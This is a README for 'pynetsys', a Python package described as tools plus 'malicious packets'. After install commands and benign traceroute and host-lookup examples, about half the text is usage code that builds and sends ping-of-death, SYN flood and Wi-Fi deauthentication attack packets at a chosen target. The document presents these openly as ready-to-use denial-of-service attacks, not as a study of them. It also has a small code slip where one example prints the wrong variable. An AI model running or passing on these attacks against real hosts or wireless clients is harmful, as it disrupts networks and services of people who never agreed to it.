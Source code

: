 # PYNETSYS

pynetsys is a collection of tools and malicious packets..

Developed by Andrea Vaccaro from ANDRVV (c) 2022

# Installing

Linux, MacOS = ```pip3 install pynetsys --user```

Windows = ```pip install pynetsys --user```

# Tools

```python
import pynetsys

trace = pynetsys.tool.traceroute("python.org") --> list
print(trace)

arping = pynetsys.tool.arp() --> dict
print(arping)

hostinfo = pynetsys.tool.hostlookup("python.org") --> dict
print(hostinfo)

networks = pynetsys.tool.networkFinder() --> dict
print(hostinfo)

```

# Create malicious packet and send

```python
import pynetsys

PACKET, ID = packet(target = "example.org", attack = Packets.DEATH_PING)
start(PACKET, ID, _verbose = 0)

PACKET, ID = packet(target = "example.org", attack = Packets.SYN_FLOOD)
start(PACKET, ID, _verbose = 0)

PACKET, ID = packet(target = "aa:bb:cc:dd:ee:ff", attack = Packets.WIRELESS_DEAUTH)
start(PACKET, ID, _verbose = 0)

```
